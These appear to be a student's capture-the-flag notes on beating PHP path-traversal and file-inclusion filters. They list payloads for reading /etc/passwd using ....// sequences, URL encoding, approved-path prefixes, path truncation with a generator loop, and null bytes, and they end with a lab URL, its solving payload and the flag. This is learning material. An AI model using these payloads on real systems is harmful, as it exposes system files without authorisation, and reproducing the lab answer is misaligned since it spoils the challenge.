 # Basic Bypasses

## Non-Recursive Path Traversal Filters

Example of protection which filters ../ :
$language = str_replace('../', '', $_GET['language']);

--> This kind of payload will not work anymore : ../../../../etc/passwd

However, this filter is very insecure, as it is not recursively removing the ../ substring

-> It works if we use that payload :

....//....//....//....//etc/passwd

We may also use :
..././
....\/

## Encoding

If the developer filters character such as . OR /

--> May be bypassed by URL encoding our input

URL encode ../ into %2e%2e%2f

Furthermore, we can also use Burp Decoder to encode the encoded string once again to have a double encoded string, which may also bypass other types of filters.

Core PHP filters on versions 5.3.4 and earlier were specifically vulnerable to this bypass,

## Approved Paths

If the developer use RegEx to check if the file is in a specific directory :

if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}

--> To bypass this, we may use path traversal and start our payload with the approved path, and then use ../ to go back 

Furthermore, we can fuzz web directories under the same path, and try different ones until we get a match

./languages/../../../../etc/passwd

## Appended Extension

If the developer add a .php extension we won't be able to read other files than PHP ones.

2 techniques only work with PHP versions before 5.3/5.4 (before 5.5 for NULL Bytes) :

### Path Truncation

In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems.

If a longer string is passed, it will simply be truncated, and any characters after the maximum length will be ignored.

For PHP
////etc/passwd is the same than /etc/passwd
/etc/./passwd is the same than /etc/passwd

--> Create very long strings that evaluate to a correct path

Finally, it is also important to note that we would also need to start the path with a non-existing directory for this technique to work.

Payload : ?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]

Generated by : echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././

calculate the full length of the string to ensure only .php


### Null Bytes

Adding a null byte (%00) at the end of the string would terminate the string and not consider anything after it

This is because in memory must use a null byte to indicate the end of the string, as seen in Assembly, C, or C++ languages.

payload : /etc/passwd%00

## LAB

Burp
http://83.136.253.251:43598/index.php?language=languages/....//....//....//....//flag.txt
HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}
